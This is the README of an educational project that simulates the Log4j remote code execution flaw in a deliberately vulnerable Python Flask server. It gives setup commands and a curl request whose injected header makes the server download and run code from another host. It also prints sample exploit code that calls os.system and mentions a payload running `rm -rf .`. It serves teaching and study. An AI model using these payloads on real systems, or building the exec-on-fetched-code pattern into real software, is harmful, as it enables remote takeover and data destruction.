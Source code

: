 # py4jshell
Simulating Log4j Remote Code Execution (RCE) [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability in a flask web server using python's logging library with custom formatter that simulates lookup substitution on URLs. This repository is a POC of how Log4j remote code execution vulnerability actually works, but written in python. Instead of using `JNDI+LDAP`, `HTTP` protocol is used for exploit code lookup.

**Note 1:** Do not use this in production, this is a demonstration of RCE.

**Note 2** This is not a vulnerability in Python's logging library. We are writing a custom formatter for the logging library that simulates the inherit behaviour of Log4J library.

**Note 3:** The exploit code exploit/exploit2.py executes rm -rf . in the server's present working directory, if you want to try this, make sure you are running it inside a container and not directly on the host, as it may result in data loss.

### How this works?
1. A GET request is made to the flask web server (`/hello`) from a HTTP client.
2. Flask framework invokes the logger to log this request, including the header.
3. Since we have patched the python's logging library to use our own formatter, the `format()` method implemented by our formatter `ShellishFormatter` is invoked.
4. The formatter performs original formatting and invokes `check_substitute_pattern` function which scans the string to be logged for `${{.+?}}` pattern.
5. If found, the URL inside this pattern is extracted, parsed and a HTTP GET request is made to the remote code hosting server pointed by the URL to download the exploit python code.
6. A runnable python object is constructed from the downloaded code dynamically using `exec` and `eval` interpreter methods. This object contains the executable exploit code.
7. Since we need to substitute the `${{.+?}}` with the stringified result, we call `str()` over the object which calls `__str__()` method of the exploit object.
8. Anything that is written inside the `__str__()` method is blindly executed unless it returns a string at the end.

### Try it yourself:
#### 1. Build the docker image:
First, built the docker image of the flask server using the provided Dockerfile.
```
docker build . -t py4jshell
```

#### 2. Host the exploit code locally:
The directory `exploit/` contains two sample python exploit codes. You can host these exploits anywhere on the internet, you can also do it locally by running a static HTTP server from that directory, as:
```
cd exploit
python -m http.server 8080
```
If everything is alright, you should see this message:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 3. Start the container:
You can just open another terminal or anywhere in your local network, just start the server as follows:
```
docker run --rm -p 5000:5000 py4jshell
```
The container should start the web server, you should see the following message:
```
* Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.2:5000/ (Press CTRL+C to quit)
```

#### 4. Make get requests:
You can use curl or any other tool to make the GET request. Check `exploit1.sh` and `exploit2.sh` files.
You can also formulate your own request as follows:

```sh
HEADER_VAL="\${{http://192.168.0.104:8080/exploit1.py}}"

curl -X GET -H "Agent: ${HEADER_VAL}" \
    http://localhost:5000/hello
```
Note the header value for `Agent` field, it contains a URL from where the exploit code is downloaded.
If everything works fine, the server will download and execute the exploit code without complaining. You should see the output as below:
```
172.17.0.1 - - [17/Dec/2021 12:56:25] "GET /hello HTTP/1.1" 200 -
it worked!
Headers: Host: localhost:5000
User-Agent: curl/7.74.0
Accept: */*
Agent: Substituted text


172.17.0.1 - - [17/Dec/2021 12:56:44] "GET /hello HTTP/1.1" 200 -
```
As you an see there is `it worked!` message on the `stdout`, which is actually from the exploit code which runs `os.system("echo it worked!")`, check `exploit/exploit1.py`. Also, if you see the logs of the static http server which hosted the exploit code files, you should see:
```
172.17.0.2 - - [17/Dec/2021 18:26:44] "GET /exploit1.py HTTP/1.1" 200 -
```
Which indicates that there was a hit from the container to the static server to download the exploit code to perform remote code execution.

#### Passing parameters:
The sample formatter also supports passing custom parameters as arguments to the instantiated remote object, to pass parameters, you can encode them as GET URL parameters:
```
HEADER_VAL="\${{http://192.168.0.104:8080/exploit2.py?name=Prasanna}}"
```

Then in the exploit code you can receive them in the constructor:
```python3
class LogSubstitutor:
    def __init__(self, **kwargs) -> None:
        # do creepy things here.
        os.system("echo from constructor")
        self.name = kwargs.get("name", "NoName")

    def __str__(self) -> str:
        # the loader will call str(object) during substitution
        # so this method must return a string and we can do other
        # creepy things here as well.
        # LoL! don't run this on the host machine.
        os.system("echo rm -rf .")
        return "Hi {}".format(self.name)
```

### Notes:
1. This project is for educational purposes, it can be used to understand Remote code execution and how Log4j shell actually works and what makes it so dangerous.
2. This has nothing to do with python's original logging library as it does not perform any string substitutions by downloading and executing code from remote URLs, this functionality is purely implemented inside the custom formatter which is actually vulnerable.
3. Log4j uses JNDI + LDAP which is the way of performing lookups on remote Java objects. This method has been in practice since 1990 and has been used by lot of applications to solve some usecases. The actual LDAP + JNDI might not work exactly as how we have written the functionality in this repo, this is just a simulation.
4. Every interpreted language can be tricked into attacks like this if they expose some or the other way of dynamic code execution using `eval`, which is most common in many interpreted languages. It is left to the developers to write better code and make the world safer.
